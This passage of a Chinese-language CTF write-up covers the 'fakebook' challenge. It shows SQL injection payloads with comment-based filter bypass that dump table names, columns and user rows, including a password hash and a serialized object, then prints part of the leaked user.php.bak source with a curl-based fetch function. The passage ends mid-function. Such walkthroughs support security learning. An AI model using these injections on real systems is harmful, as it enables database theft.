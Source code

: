 爆表名

```
-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='fakebook'
users
```

爆字段名

```
-1 union/**/select 1,group_concat(column_name) ,3,4 from information_schema.columns where table_name='users'
no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS
```

查看字段的值

```
-1 union/**/select 1,group_concat(no,';',username,';',passwd,';',data)  ,3,4 from users
```

```
1;11;74a49c698dbd3c12e36b0b287447d833f74f3937ff132ebff7054baa18623c35a705bb18b82e2ac0384b5127db97016e63609f712bc90e3506cfbea97599f46f;O:8:"UserInfo":3:{s:4:"name";s:2:"11";s:3:"age";i:11;s:4:"blog";s:9:"baidu.com";}
```

这里data的值是序列化字符串

> 发现网站目录下还有robots.txt
>
> ```
> User-agent: *
> Disallow: /user.php.bak
> ```
>
> 访问/user.php.bak，下载源码

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

```